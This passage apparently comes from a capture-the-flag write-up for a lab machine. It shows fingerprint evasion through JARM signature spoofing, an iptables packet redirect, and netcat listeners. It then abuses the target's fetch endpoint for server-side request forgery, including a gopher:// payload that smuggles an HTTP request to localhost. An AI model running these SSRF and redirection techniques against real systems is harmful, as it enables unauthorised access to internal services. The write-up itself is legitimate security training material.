 Now the metadata was fetched and the IP is marked as malicious:
```json
{
  "sig": "07d14d16d21d21d00042d43d000000aa99ce74e2c6d013c745aa52b5cc042d",
  "ismalicious": true,
  "endpoint": "10.10.14.3:443",
  "note": "Metasploit",
  "server": "Apache"
}
```

We have a way to imitate the signatures with our IP and know that JARM works by sending 10 different requests.
By using a firewall, it could be possible to direct the service to somewhere else on the 11th packet.

### Enumerating JARM

Creating firewall rule with `iptables` to forward the 11th packet on port 443 to port 8443:
```
iptables -I PREROUTING -t nat -p tcp --dport 443 -d 10.10.14.3 -m statistic --mode nth --every 11 --packet 10 -j REDIRECT --to-port 8443
```

Starting two listeners:
```
nc -lvnp 443 --ssl
```
```
nc -lvnp 8443 --ssl
```

Fetching data from our endpoint:
```
curl -s -X 'GET' 'http://10.10.11.117/api/v1/fetch?endpoint=10.10.14.3' -H 'accept: application/json' | jq
```

There was a connection on the listener on port 443 and the 11th packet was directed to the listener on port 8443:
```
Ncat: Listening on 0.0.0.0:8443
Ncat: Connection from 10.10.11.117.
Ncat: Connection from 10.10.11.117:43316.
GET / HTTP/1.1
Host: 10.10.14.3
User-Agent: curl/7.74.0
```

It uses a **GET request** with `curl` and this can be abused to exploit a **Server Side Request Forgery (SSRF)** vulnerability.
The network protocol **Gopher** can be used as it allows general text in the URI like so:
```
curl gopher://127.0.0.1/_GET%20/site%20HTTP/1.1%0d%0aHost:%20127.0.0.1
```
```
GET /site HTTP/1.1
Host: 127.0.0.1
```
